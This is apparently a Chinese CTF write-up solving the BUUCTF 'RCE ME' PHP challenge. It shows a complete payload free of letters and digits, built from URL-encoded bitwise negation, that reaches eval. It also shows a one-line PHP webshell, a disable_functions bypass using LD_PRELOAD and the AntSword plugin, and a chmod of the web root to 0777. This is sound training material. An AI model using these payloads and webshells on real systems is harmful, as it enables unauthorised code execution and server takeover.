 ```yaml
---
title: 极客大挑战 2019 RCE ME
categories: ['DROPS']
tags: ['Web','BUUCTF_Web','RCE','disable_function绕过']
cover: https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/cover/20201120232544.png
date: 2020-12-5 20:42:00
---
```


# [极客大挑战 2019]RCE ME

源码：

```
<?php
error_reporting(0);
if(isset($_GET['code'])){
            $code=$_GET['code'];
                    if(strlen($code)>40){
                                        die("This is too Long.");
                                                }
                    if(preg_match("/[A-Za-z0-9]+/",$code)){
                                        die("NO.");
                                                }
                    @eval($code);
}
else{
            highlight_file(__FILE__);
}

// ?>
```

分析一波，GET请求获得`code`，想要通过的话需要绕过两个检测：

1. payload长度小于40
2. 不能包含`a-z、A-Z、0-9`

和之前做过DMCTF里的一个不能用数字和字母构造payload一样，当时参考的博客是phith0n师傅的:[一些不包含数字和字母的webshell](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum.html)，这次摸到了相关文章：[无字母数字webshell之提高篇](https://www.leavesongs.com/PENETRATION/webshell-without-alphanum-advanced.html)。

使用`url编码`+`~`取反构造不可见字符串，然后加上php7版本以后支持了使用：`($a)()`这样的方法动态执行函数，所以我们可以构造payload：`assert(eval($_POST[‘a’]))`

先构造`assert`：

```
echo urlencode(~'assert');

//结果：%9E%8C%8C%9A%8D%8B
```

再构造`eval($_POST['a'])`：

```
echo urlencode(~'eval($_POST[\'a\'])');

//结果：%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%D8%9E%D8%A2%D6
```

完整payload：

```
?code=(~%9E%8C%8C%9A%8D%8B)(~%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%D8%9E%D8%A2%D6);
```

网站获得请求以后会进行url解码，由于是不可见字符可以绕过长度和正则表达式，之后执行代码时，前面的`~`取反再获得真正的函数名。

使用蚁剑连接，进后台在根目录找到了flag、readflag。打开flag内容为空，又打开readflag文件是一堆乱码，但是看到了文件头是`ELF`是linux的可执行文件。那么很有可能就是执行readflag才能获得flag，但是在终端执行时出现了一些问题：无论输入什么，终端都只会返回`ret=127`：

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201205201403.png)

搜索了一波，原来是是**disable_function**搞的鬼，这个表可以在phpinfo()中查看：

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201205201821.png)

因为`system`、`exec`、`shell_exec`等命令执行的函数都被禁止了，目前我理解的webshell就是通过这些函数才能在终端执行命令的，所以终端基本是个废的，所以就是寻找绕过**disable_function**的方法，网上有很多其他方法，其中一个方法：

**利用环境变量LD_PRELOAD来绕过**

>php的mail函数在执行过程中会默认调用系统程序/usr/sbin/sendmail，如果我们能劫持sendmail程序，再用mail函数来触发就能实现我们的目的
>
> 
>
>LD_PRELOAD是Linux系统的下一个有趣的环境变量：“它允许你定义在程序运行前优先加载的动态链接库。这个功能主要就是用来有选择性的载入不同动态链接库中的相同函数。通过这个环境变量，我们可以在主程序和其动态链接库的中间加载别的动态链接库，甚至覆盖正常的函数库。一方面，我们可以以此功能来使用自己的或是更好的函数（无需别人的源码），而另一方面，我们也可以以向别人的程序注入程序，从而达到特定的目的。

正好蚁剑的插件中就有一个名为：[as_bypass_php_disable_functions](https://github.com/Medicean/as_bypass_php_disable_functions)的插件，可以选择在插件市场安装或是手动安装（github有步骤）。安装以后右键shell选择加载插件：

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201204234337.png)

插件的工作原理是自动上传几个绕过的文件，然后再用蚁剑连接上传的文件即可实现绕过，但是一开始的`/var/www/html`目录是没有上传权限的，我右键以后发现能修改权限，改成0777：

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201204190508.png)

>在这里我还遇到了问题，使用原来的shell执行插件功能以后，终端还是没有权限，但是我尝试了自己又上传了一个一句话木马，用这个新的一句话木马执行插件才成功，具体原因我也不清楚，如果有师傅知道原因求告知。

上传一句话木马233.php：

```
<?php
@eval($_POST['b']);
```

再用一句话木马的shell执行插件：

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201204231514.png)

进入shell，目录下面多了一个名为**\.antproxy.php**的文件：

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201204234445.png)

再使用蚁剑连接**\.antproxy.php**，密码是运行插件的那个shell的密码，这时候就可以开开心心的去根目录下执行readflag获得flag辣。

![](https://cdn.jsdelivr.net/gh/guobang-yoo/PicBed@master/artical/20201204233847.png)

flag{a216900e-2427-48f7-9323-f65d0a3abdbf}

